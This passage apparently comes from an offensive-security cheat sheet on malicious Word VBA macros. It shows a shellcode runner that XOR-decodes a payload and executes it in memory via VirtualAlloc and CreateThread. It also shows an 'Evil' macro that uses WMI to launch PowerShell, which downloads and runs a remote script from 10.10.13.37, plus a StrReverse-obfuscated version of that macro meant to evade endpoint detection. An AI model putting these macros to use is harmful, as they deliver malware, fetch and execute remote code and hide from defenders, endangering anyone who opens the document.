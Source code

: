 ```vba
  buf = Array(31, 33, ..., 33, 37)

  ' XOR-decrypt the shellcode
  For i = 0 To UBound(buf)
    buf(i) = buf(i) Xor Asc("a")
  Next i

  ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
  ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
```
{% endcode %}



### De-Chain PowerShell via WMI

- [https://blog.f-secure.com/dechaining-macros-and-evading-edr/](https://blog.f-secure.com/dechaining-macros-and-evading-edr/)

De-chain PowerShell process from MS Word parent process via WMI:

{% code title="StageWMI.vba" %}
```vba
Sub Evil
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
```
{% endcode %}

Obfuscate it using `StrReverse` ([CyberChef](https://gchq.github.io/CyberChef/) or [Code Beautify](https://codebeautify.org/reverse-string)):

{% code title="StrReverseStageWMI.vba" %}
```vba
Function Pony(flowers)
  Pony = StrReverse(flowers)
End Function

Sub Evil
  Dim strArg As String
  strArg = Pony(")'txt.nur/73.31.01.01//:ptth'(gnirtSdaolnwoD.)tneilCbeW.teN tcejbO-weN(XEI c- pon- ssapyb cexe- llehsrewop")
  GetObject(Pony(":stmgmniw")).Get(Pony("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```
{% endcode %}
